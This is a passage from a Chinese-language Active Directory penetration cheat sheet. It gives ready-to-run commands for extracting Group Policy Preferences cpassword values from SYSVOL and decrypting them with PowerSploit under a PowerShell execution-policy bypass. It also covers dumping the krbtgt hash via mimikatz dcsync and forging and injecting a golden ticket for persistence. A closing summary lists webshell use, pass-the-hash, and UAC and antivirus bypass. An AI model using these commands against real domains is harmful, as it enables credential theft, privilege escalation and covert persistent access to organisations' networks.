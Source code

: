 ```

## GPP漏洞利用
---
win2008增加，一般域用户都可访问敏感文件  
密码存在SYSCOL目录下:

	Groups.xml, 这个文件是域管通过GPP设置或修改本地密码留下的
	Services\Services.xml,
	ScheduledTasks\ScheduledTasks.xml,
	Printers\Printers.xml,
	Drives\Drives.xml,
	DataSources\DataSources.xml

```
net use \\域控(如pc.xx.com) password /user:xxx.com\username 
dir \\域控\SYSVOL /s /a > sysvol.txt
findstr /i "groups.xml" sysvol.txt
```
找到cpassword  
解密过程：

	set-executionPolicy bypass
	powershell -ep bypass     启动ps
	Import-Module .\GPP.ps1
	Get-DecryptedCpassword  xxxxxxxxxxxxxx

脚本link：  
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

[利用SYSVOL还原组策略中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%88%A9%E7%94%A8SYSVOL%E8%BF%98%E5%8E%9F%E7%BB%84%E7%AD%96%E7%95%A5%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

## 黄金票据(维权)
---

域用户sid

	whoami /all

krbtgt hash

	mimikatz "lsadump::dcsync /domain:xx.com /user:krbtgt"

域管  
net group "domain admins" /domain
这里是administrator

    mimikatz "kerberos::purge"
    "kerberos::golden /admin:administrator /domain:xx.com /sid:S-1-5-..... /krbtgt:hash /ticket:Adminstrator.kiribi"
    "kerberos::ptt Administrator.kiribi"
    "kerberos::tgt"

# 总结
---
​   首先，利用 webshell 执行开篇的命令收集内网前期信息(不局限用 webshell)，也可以用 msf 等平台，或 powershell 收集信息，判断机器所处区域，是 DMZ 区，还是办公区，核心 DB等;机器作用是文件服务器，Web，测试服务器，代理服务，还是 DNS，DB 等;网络连通性，文中也提到测试 dns，tcp，http 等命令，理清内网拓扑图，网段，扫描内网，路由，交换机，端口等判断是域还是组，组的话，用常见 web 方法，域的话 gpp，kerberos，黄金白银票据，抓密码，这里注意密码有的有空格，pth，ptk,spn 扫描，ipc,445,web 漏洞，各种未授权，密码相同,历史命令等，期间会遇到提权，bypass uac，bypass av。

## 某些大佬语录
---
```